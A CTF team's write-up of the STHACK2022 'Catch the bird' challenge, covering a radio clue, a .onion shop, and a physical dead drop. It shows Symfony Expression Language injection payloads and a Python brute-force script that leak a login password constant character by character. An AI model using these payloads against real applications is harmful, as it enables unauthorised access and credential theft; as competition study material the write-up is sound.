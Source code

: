 ```yaml
---
layout: post
title: STHACK2022 - Catch the bird, a trip from web to IRL
---
```


# STHACK2022 - Catch the bird, a trip from web to IRL

* Author: ajani
* Category: `web`, `physical`

The challenge started with the following Post Card

![Post Card]({{ site.baseurl }}/images/STHACK2022/sthack2022_post-card.png)

We also had the following scenario:

```
This time I think Archer have got himself involved in something far to big for him.

Last time I've seen him he seemed agitated, anxious, he kept telling about that man he was following, how he felt it had been made, and something about Malta and some bird statuette. That was 9 days ago and I haven't heard from Miles since then.

It seems strange, but it wouldn't be the first time he didn't give news for days until he woke up to some unknown county of this damn country, with an empty bottle of the worst whisky and a skull full of the finest hangover. The guy love the bottle to much, and she didn't returned him so well. Yet, I could tell something was off, it didn't felt right.

That was until this morning, when a post card arrived at the bureau mailbox. Postcard At first sight it's just a simple postcard to tell me he need to take some vacations right ? But here's the thing, Miles never lived at the 101.10 Marconi street...

If Archer ask for my help then it must really be serious. I need to find where this statuette is, and judging by the postcard I must hurry, 'cause whomever have the damn bird, it seems like he want to sell it.
```

We quickly realized we needed to listen on the **Radio Frequency** 101.1Mhz inside the "Hotel de Ville". This was achieved using a Xiaomi Android Application, we recorded everything broadcasted on the frequency in this file:

* [Recording FM @ 101.1 MHz]({{ site.baseurl }}/images/STHACK2022/FM_101.1 MHz_20220520212911.mp3)

We can hear the well known military code, which gave us this .onion website:
http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion:80, we accessed it using Tor.

After some time exploring the website we discovered "a feature" to send a mail with an extract of the current code when an error occured on the website.

We found two ways to trigger an error:
- trying to login using a wrong password: `LoginController.php`
- while injecting and breaking context inside the shop part of the website: `Lexer.php`

The team spent too much time trying to find a Server Side Template Injection since it was using a `twig` template in line 21@LoginController.php.

![Dump code controller]({{ site.baseurl }}/images/STHACK2022/sthack2022_dump_code_controller.png)
![Dump code lexer]({{ site.baseurl }}/images/STHACK2022/sthack2022_dump_code_lexer.png)

However while we were fuzzing the `category` field, we discovered the '`~`' was working to concatenate two strings in Twig and tried the following requests:

| Query | Output | Indicator |
| ---- | ---- | ---- |
| category=category == 'forgery' | Displays the product "Coated Something" | True |
| category=category == 'forg'~'ery' | Displays the product "Coated Something" | True |
| category=category == 'forg'~'ery'~'7'*7 | Don't display but do not throw an error| False |

We had an oracle !! However we didn't manage to find an interesting primitive allowing us to execute commands.
So we used our favorite tool "Burp Suite Intruder" and fuzzed with the top 100 functions in PHP and Symfony and some weird behaviors started to appear.
The function `constant` was recognised by the parsing engine, then it clicked, the `Lexer.php` file was located in a folder called `expression language`. We tried to confirm the function using several global constants.

```py
category=category == 'forg'~'ery'~'7'*7
category=category == 'forg'~'ery'~constant("DB_USER")
category=category == 'forg'~'ery'~constant("INFO_ALL")
category=category == 'forg'~'ery'~constant("true")
category=category == 'forg'~'ery'~constant("null")
```

However it's only giving us the information about the existence of a constant it would be better to extract their value. Especially the value of the constant `self::PASSWORD`@LoginController.php.

First, we attempt to access the constant located in another file on the server. Thankfully the server errors were quite verbose and give us half of the payload :)

```py
Error : Attempted to load class "LoginController" from namespace "\App\\Controller\".
Did you forget a "use" statement for "App\Controller\LoginController"?
```

The trick here was to add several backslash `\\\\`

```py
'forg'~'ery'~constant("\\\\App\\\\Controller\\\\LoginController::PASSWORD")
```

Now that we confirmed the access to the `PASSWORD` constant, we tried to read the characters one-by-one like any array with `array[0] == 'A'`. But the pain was only starting, Expression Language constant cannot be accessed like an array... We finally found an alternative using **Regular Expressions** and created a small script which was ... too slow, remember we are using Tor to connect to the .onion website and the shared network on site was a bit laggy. 

```py
import requests

flag = "Ybhr"
charset = "azertyuiopqsdfghjklmwxcvbnAZERTYUIOPQSDFGHJKLMWXCVBN1234567890"

for c in charset:
    burp0_url = "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion:80/"
    burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion", "Connection": "close", "Referer": "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion/", "Upgrade-Insecure-Requests": "1"}
    burp0_data = {"category": "constant(\"\\\\App\\\\Controller\\\\LoginController::PASSWORD\") matches \"/^"+flag+"\" ", "& category ": "= 'forgery'"}
    r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(c, len(r.text))
```

Once again we turned to our Intruder and fuzzed with the charset `a-zA-Z0-9`, with the following payload: `category=constant("\\App\\Controller\\LoginController::PASSWORD") matches "/^Y[FUZZED_CHAR_ADDED_HERE]/" && category == 'forgery'` and we got the following quite quickly: `Ybhr5vmjJD` after switching to our 4G network for a more reliable access.

Now we can access the Admin Panel and manage the products. Only one product (deaddrop) as available for purchase. 

![Web Login]({{ site.baseurl }}/images/STHACK2022/sthack2022_deaddrop-login.png)

> Dead Drops is an anonymous, offline, peer to peer file-sharing network in public space. Anyone can access a Dead Drop and everyone may install a Dead Drop in their neighborhood/city. A Dead Drop must be public accessible. - The Dead Drops Manifesto

The product coordinates were really close to us and the challenge was listed in the categories `web` and `physical`. We went there with a laptop and other tools like a lockpick set. Obviously the deaddrop wasn't embbeded into the "Hotel de Ville"'s wall, it was cemented to a pad lock ;)

![]({{ site.baseurl }}/images/STHACK2022/sthack2022_gpslocate.png)

Some interesting encrypted files were stored on the deaddrop and we had the key to decrypt them using the command `openssl aes-256-cbc -d -in whisky.txt.aes256cbc -out secrets2.txt.new`

![AES secrets]({{ site.baseurl }}/images/STHACK2022/sthack2022_aes_key.png)

And now for the final step: a new onion URL from one of the decrypted file (maltapyzyfnwvgkl4se7tlhlrohule77cgnaguy2nouxyvosovjldbyd.onion). It seems to be an aunction website, but the site is not yet opened. The opening is scheduled for the 23rd May but something smells fishy, the Javascript was heavily obfuscated, and we are still waiting for our flag. 

```js
// Example of Pentester's nightmare
function _0x18c8(_0x46078f,_0xd7ff98){var _0x33e42d=_0x3b53();return _0x18c8=function(_0x164e09,_0x470955){_0x164e09=_0x164e09-(0x1063+-0x19*0x187+0x16b7);var _0xf46362=_0x33e42d[_0x164e09];return _0xf46362;},_0x18c8(_0x46078f,_0xd7ff98);}function _0x3b53(){var _0x574953=['aW9uYWwgbm','4JDouuU','fEdgK'[...]
```

Let's discuss methodology to apprehend this problem:

![JS deobf]({{ site.baseurl }}/images/STHACK2022/sthack2022_deobf.jpg)

Having spent wayyyy too much time on this challenge, we used a quite radical approach and changed our VM internal date slowly to arrived at the opening date: `date -s "2021-03-23 16:58:22"` and then we got our flag.

Overall the challenge was nice and interesting to resolve with my teammates. Having a bit of physical without resorting to use a full arsenal of HackRF, Proxmark or a crowbar was quite refreshing :)


![Scoreboard]({{ site.baseurl }}/images/STHACK2022/sthack2022_scoreboard.jpg)